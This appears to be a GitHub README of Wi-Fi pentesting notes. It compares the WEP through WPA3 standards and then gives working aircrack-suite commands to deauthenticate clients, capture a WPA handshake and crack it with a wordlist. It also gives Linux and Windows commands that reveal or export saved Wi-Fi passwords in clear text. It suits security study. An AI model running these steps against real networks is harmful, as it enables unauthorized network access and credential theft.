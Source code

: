 ### 🔒 WEP (Wired Equivalent Privacy)

- Introduced: 1997 (original Wi-Fi standard, IEEE 802.11).
- Encryption: RC4 stream cipher with 64-bit / 128-bit keys.
- Weakness: Very easy to crack due to weak key scheduling and predictable IV (Initialization Vector).
- Status: Obsolete – can be hacked in minutes with tools like Aircrack-ng.

### 🔒 WPA (Wi-Fi Protected Access)

- Introduced: 2003 (as a quick fix to replace WEP).
- Encryption: TKIP (Temporal Key Integrity Protocol).
- Improvement: Added per-packet key mixing + message integrity check.
- Weakness: Still vulnerable (TKIP is outdated), can be cracked with dictionary attacks.
- Status: Deprecated but still seen in old devices.

### 🔒 WPA2 (Wi-Fi Protected Access 2)

- Introduced: 2004 (mandatory since 2006 for Wi-Fi certification).
- Encryption: AES-CCMP (stronger than TKIP).
- Improvement: Much more secure than WPA.
- Weakness: Vulnerable to KRACK attack (2017) if patches not applied; WPA2-Personal (PSK) can be cracked via weak passwords.
- Status: Still widely used today.

### 🔒 WPA3 (Wi-Fi Protected Access 3)

- Introduced: 2018 (latest standard).
- Encryption: SAE (Simultaneous Authentication of Equals) replaces PSK.
- Improvement:
	- Strong protection against offline password-guessing.
	- Forward secrecy (session keys stay safe even if password is later known).
	- Mandatory 192-bit encryption for enterprise networks.
- Weakness: Some early implementation flaws (Dragonblood attack), but patches fixed most issues.
- Status: Most secure standard available; slowly becoming mainstream.

#### ✅ Summary:

- WEP → insecure, obsolete.
- WPA → weak, deprecated.
- WPA2 → secure if patched, still common.
- WPA3 → most secure, recommended for modern networks.

---

### 📡 Wi-Fi Modes in Linux / Networking

#### 🔍 Monitor Mode

**What it is:**
- A special mode where the Wi-Fi card can capture all wireless traffic in the air, even if it’s not meant for your device.

**Use cases:**
- Packet sniffing (Wireshark, tcpdump).
- Security testing (Aircrack-ng, Kismet).
- Analyzing nearby networks without connecting.

**Key point:**
- You don’t need to be connected to a network. It’s like putting your card into “listen-only” mode.
- Example command (Linux):
	```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor
	sudo ifconfig wlan0 up

	or 
    sudo airmon-ng check kill
	sudo airmon-ng start  wlan0
	```

#### 🌐 Managed Mode

**What it is:**
- The default mode for Wi-Fi cards. In this mode, your Wi-Fi card communicates only with the Access Point (AP) it’s connected to.

**Use cases:**
- Normal Wi-Fi usage (browsing, streaming, etc.).
- Standard network communication.

**Key point:**
- Only processes traffic to/from your device and ignores all other packets in the air.
- Example command (Linux):
```bash
sudo iwconfig
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up

or 

sudo airmon-ng stop  wlan0mon

```


### Pentesting Wifi

#### 1. wifite : 

   |NUM  |                    ESSID |  CH | ENCR  |  PWR   | WPS | CLIENT|                                       
   |---  |------------------------- | --- | ----- |  ----  | --- | ------|
   |  1  |                    ROBIN |   7 | WPA   |  99db  |  no |   1   |                                        
   |  2  |                    sonu  |   4 | WPA-P |  22db  | yes |   1   |

   - WPS enabled? :  ✅ WPS is ON → vulnerable to WPS attacks (Pixie Dust, Reaver, Bully).

#### 2. fern-wifi-cracker 


#### 3. Manually 

1. Enable Monitor Mode
```bash
	sudo iwconfig
	sudo ifconfig wlan0 down
	sudo iwconfig wlan0 mode monitor

	or 

	sudo airmon-ng check kill         
    sudo airmon-ng start wlan0

    sudo airmon-ng stop  wlan0mon
```
2. Scan for targets
```bash
   sudo airodump-ng wlan0mon
```
3. Capture  handshake

```bash
	BSSID = 16:32:51:73:9A:94

	sudo airodump-ng -c 11 --bssid 16:32:51:73:9A:94 -w capture wlan0mon

	In Other terminal :

	sudo aireplay-ng -0 10 -a 16:32:51:73:9A:94  -c Station_BSSID wlan0mon
	sudo aireplay-ng -0 50 -a 16:32:51:73:9A:94  -c C6:6D:35:3D:14:72 wlan0mon

	-0 = deauth attack
    10 = number of deauth packets
    -a = target AP BSSID
```

5. Crack the handshake

- Now use a wordlist (like rockyou.txt):
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 16:32:51:73:9A:94 capture-02.cap
```









## Play with Windows/Linux cmd
-  Cmd to get saved password
```bash
Linux : 
SSID="Wifi Name"
sudo cat /etc/NetworkManager/system-connections/SSID.nmconnection | grep -i psk=

Windows:

netsh wlan show profiles
netsh wlan show profile name="WiFi-Name" key=clear
netsh wlan export profile key=clear folder=C:\wifi-password-backup  : --> (including passwords) as XML


```







## ✅ Quick Workflow

- Before pentest
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

- After pentest (to restore internet)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```
---

**RobinH00d**
---

